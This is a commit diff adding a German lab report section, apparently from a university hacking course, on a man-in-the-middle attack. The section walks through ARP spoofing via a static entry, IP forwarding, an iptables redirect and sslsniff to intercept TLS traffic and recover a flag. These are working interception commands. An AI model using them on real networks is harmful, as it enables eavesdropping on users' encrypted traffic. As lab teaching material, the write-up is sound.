

Before and after one commit to hikhvar/Hacking, a LaTeX document (Protokolle/6/protokoll.tex): part of the page, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
minor correction on excercise 5, added Aufgabe 6a)

```diff
--- a/Protokolle/6/protokoll.tex
+++ b/Protokolle/6/protokoll.tex
@@ -15,6 +15,35 @@
 
 \section*{Aufgabe 1}
 
+\subsection*{a)}
+Ein Mitschnitt mittels Wireshark auf den Workstations zeigte, dass sich auf den Workstations mit den IPs \texttt{192.26.175.11} und \texttt{192.26.175.13} ein Prozess mittels TLSv1.1 mit der IP \texttt{192.26.175.15} verbindet. Um diese Verbindung mitzuschneiden änderten wir auf der Workstation mittels
+\begin{verbatim}
+arp -s 192.26.175.15 52:54:00:2c:4f:ec
+\end{verbatim}
+Den ARP Eintrag für die IP \texttt{192.26.175.15} auf die MAC Adresse der Kali VM auf derselben Workstation.
+In der Kali VM starten wir das Tool sslsniff.
+Um dieses Tool verwenden zu können, mussten wir in der Kali VM mittels
+\begin{verbatim}
+echo 1 > /proc/sys/net/ipv4/ip_forward
+\end{verbatim}
+Das IP forwarding einschalten. Außerdem haben wir wie in der \texttt{man-page} von \texttt{sslsniff} beschrieben die Regel für IP Tables umgeschrieben, sodass alle Zugriffe auf den Port 443 auf den Port 4433 umgeleitet werden.
+\begin{verbatim}
+iptables -t nat -A PREROUTING -p tcp --destination-port 443  -j REDIRECT --to-ports 4433
+\end{verbatim}
+Danach starteten wir sslsniff mit den folgenden Parametern:
+\begin{verbatim}
+sslsniff  -a  -c  /usr/share/sslsniff/certs/wildcard  -s 4433 -w /tmp/sslsniff.log
+\end{verbatim}
+Nach kurzer Zeit fanden wir die folgenden Zeilen in der Logdatei \texttt{sslsniff.log}:
+\begin{verbatim}
+Hallo bernd!
+Hier ist deine Flagge: 1107174691af9ff3681d2b5bdb5740b1589bae53
+\end{verbatim}
+Die Flagge lautet also \texttt{1107174691af9ff3681d2b5bdb5740b1589bae53}
+
+
+\subsection*{b)}
+
 \section*{Aufgabe 2}
 Da das EAP Protokoll nicht verschlüsselt ist, kann man aus den vier mitgeschnittenen
 
```
Also changed, not shown: Protokolle/5/protokoll.tex (+1 -1 lines).
